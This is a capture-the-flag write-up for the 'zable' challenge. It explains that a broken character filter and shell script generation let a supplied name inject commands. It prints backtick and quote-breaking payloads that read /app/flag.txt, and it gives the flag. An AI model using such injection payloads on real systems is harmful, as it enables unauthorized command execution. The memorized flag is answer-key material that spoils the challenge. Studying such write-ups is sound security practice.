 ```yaml
---
ai_date: 2025-04-27 05:17:57
ai_summary: "Input sanitization missing in bash script generation, allowing command injection (exploit: `;cat /app/flag.txt;echo`)"
ai_tags:
  - bash
  - cmd-inj
  - payload-injection
created: 2024-07-21T03:54
points: 474
solves: 18
updated: 2025-07-14T09:46
---
```


So we have a python file that opens a testing suite...

```python
from subprocess import Popen

name = input('Enter name: ')

for c in '`$(){}':
    name.replace(name, '')

Popen([
    'bazel',
    'run',
    ':run',
    f'--action_env=NAME={name}'
], shell=False).communicate()
```

Wait a minute, nothing is actually being replaced here.

For it to be effective at removing characters it has to be like this.

```python
for c in '`$(){}':
    name = name.replace(name, '')
```

I guess the authors messed up?

```shell
$ nc zable.chal.imaginaryctf.org 1337
Enter name: `cat /app/flag.txt`
Hello, ictf{I_supp0se_if_a_hacker_can_run_bazel_on_your_system_things_are_already_bad}!
```

```flag
ictf{I_supp0se_if_a_hacker_can_run_bazel_on_your_system_things_are_already_bad}
```

---

After the CTF has ended I found out that the intended solution was exploiting bash file generation.

The task generates a bash script like this.

```shell
EXPORT NAME="<NAME>"
```

We can inject code to make it look like this.

```shell
EXPORT NAME="";cat /app/flag.txt;echo ""
```

The payload is hence `";cat /app/flag.txt;echo "`